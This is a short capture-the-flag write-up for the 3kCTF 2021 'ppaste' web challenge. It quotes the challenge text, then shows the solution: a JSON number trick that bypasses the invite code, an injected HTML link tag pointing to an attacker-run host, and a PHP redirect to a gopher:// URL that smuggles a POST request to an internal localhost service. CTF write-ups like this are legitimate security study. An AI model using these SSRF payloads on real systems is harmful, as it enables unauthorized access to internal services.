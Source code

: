 ```
ppaste - 498pts - 1 solves - Author: rekter0

We've launched our first bugbounty program, Our triage team is eager to hear about your findings !

Bounty Program
https://app.intigriti.com/researcher/programs/ctf/3kctf2021/detail

Check assets in scope and whether you can leak a flag

Note:
- You need account at intigriti.com to view the scope
- Submit flag here to get CTF points
- Submit a report at intigriti gets you reputation points at intigriti


Hints
1. json inconsistencies

First Blood
1. Black Bauhinia
```

Bypass invitation, code -INF, ex: -3.3e333333333333
https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities

Create new paste
//title
```HTML
<linktype="text/css"href="http://MYHOST/redir.php">
```

//redir.php content
```PHP
<?php
header('location: gopher://localhost:8082/_POST%20%2Fusers%20HTTP%2F1.1%0AHost%3A%20localhost%0AContent-Length%3A%2021%0AContent-type%3A%20application%2Fjson%0A%0A%7B%22user%22%3A%22ewrwewrwe%22%7D');
```